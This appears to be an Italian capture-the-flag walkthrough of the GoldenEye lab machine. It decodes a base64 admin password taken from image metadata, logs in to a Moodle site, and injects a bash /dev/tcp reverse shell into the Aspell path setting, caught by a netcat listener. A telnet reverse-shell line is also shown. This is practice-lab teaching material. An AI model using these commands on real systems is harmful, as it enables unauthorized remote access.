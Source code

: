 ```
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 313x212
Megapixels                      : 0.066
```
troviamo un codeice
```
Image Description               : eFdpbnRlcjE5OTV4IQ==
```
proviamo a vedere se è base64
```
echo "eFdpbnRlcjE5OTV4IQ==" | base64 --decode
```
forse è la password dell'admin!
```
xWinter1995x!
```
Utilizzando le informazioni trovate nell'ultima attività, accedi con il nuovo utente trovato.
```
http://severnaya-station.com/gnocertdir/
```
```
admin
```
```
xWinter1995x!
```
nel profilo troviamo
```
|   |   |
|---|---|
|Country:|Russian Federation|
|City/town:|none of your business!|
|Email address:|[boris@127.0.0.1](mailto:b%6f%72is@%31%327%2e%30%2e%30%2e%31)|
|First access:|Tuesday, 24 April 2018, 11:15 AM  (7 years 29 days)|
|Last access:|Wednesday, 21 May 2025, 05:33 PM  (8 secs)|
|Interests:|[breaking codes and spinning my pen](http://severnaya-station.com/gnocertdir/tag/index.php?tag=breaking%20codes%20and%20spinning%20my%20pen)|
```
Boris è il maestro del progetto

Poiché questo utente ha maggiori privilegi sul sito, puoi modificare le impostazioni di Moodle. Da qui puoi ottenere una shell inversa usando Python e Netcat.
Dai un'occhiata ad Aspell, il plugin per il controllo ortografico.

generare una reverse shell per accedere al mainframe di GoldenEye andando in Path to aspell

nella ricerca digitare aspell per trovare `Path to aspell` dove troviamo la seguente riga
```
sh -c '(sleep 4062|telnet 192.168.230.132 4444|while : ; do sh && break; done 2>&1|telnet 192.168.230.132 4444 >/dev/null 2>&1 &)'
```
ora al suo posto iniettiamo una reverse shell
```
bash -c 'sh -i >& /dev/tcp/10.14.99.134/4444 0>&1'
```
impostiamo il correttore su **PSpellShell** (cercandolo sempre tramite search)
ci mettiamo in ascolto su kali
```
nc -lvnp 4444
```
Creiamo un articolo
e facciamo un controllo ortografico del blog appena creato

